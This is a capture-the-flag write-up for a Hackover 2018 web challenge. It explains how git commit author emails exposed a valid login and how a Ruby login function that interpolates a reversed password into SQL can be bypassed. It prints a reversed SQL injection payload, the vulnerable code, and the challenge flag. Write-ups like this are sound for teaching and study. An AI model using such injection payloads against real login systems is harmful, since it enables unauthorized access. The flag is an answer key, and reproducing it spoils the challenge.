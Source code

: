 ## title
#### challenge
```
Howdy mate! Just login and hand out the flag, aye! You can find on h18johndoe has all you need!

http://yo-know-john-dow.ctf.hackover.de:4567/login

alternative: 46.101.157.142:4567/login
```
## resources
[github](https://github.com/h18johndoe/user_repository/blob/master/user_repo.rb)

### idea
The web page needs an email to login, therefore we cloned the github-repo and looked at the commits with ```git log``` and checked the four emails on the website login.
```
commit b26aed283d56c65845b02957a11d90bc091ac35a (HEAD -> master, origin/master, origin/HEAD)
Author: John Doe <angelo_muh@yahoo.org>
Date:   Tue Oct 2 23:55:57 2018 +0200

    Add login method

commit 5383fb4179f1aec972c5f2cc956a0fee07af353a
Author: John Doe <jamez@hemail.com>
Date:   Tue Oct 2 23:04:13 2018 +0200

    Add methods

commit 2d3e1dc0c5712efd9a0c7a13d2f0a8faaf51153c
Author: John Doe <john_doe@gmail.com>
Date:   Tue Oct 2 23:02:26 2018 +0200

    Add dependency injection for database

commit 3ec70acbf846037458c93e8d0cb79a6daac98515
Author: John Doe <john_doe@notes.h18>
Date:   Tue Oct 2 23:01:30 2018 +0200

    Add user repo class and file
```
john_doe@notes.h18 worked.

The login function in the ruby script is vulnerable to SQL-Injections through the reversed password.
We used ```-- '1'='1' ro '1``` as password and got the flag.
```
  def login(identification, password)
    hashed_input_password = hash(password)
    query = "select id, phone, email from users where email = '#{identification}' and password_digest = '#{hashed_input_password}' limit 1"
    puts "SQL executing: '#{query}'"
    @database[query].first if user_exists?(identification)
  end
```
```
  def hash(password)
    password.reverse
  end
```

### flag
hackover18{I_KN0W_H4W_70_STALK_2018}
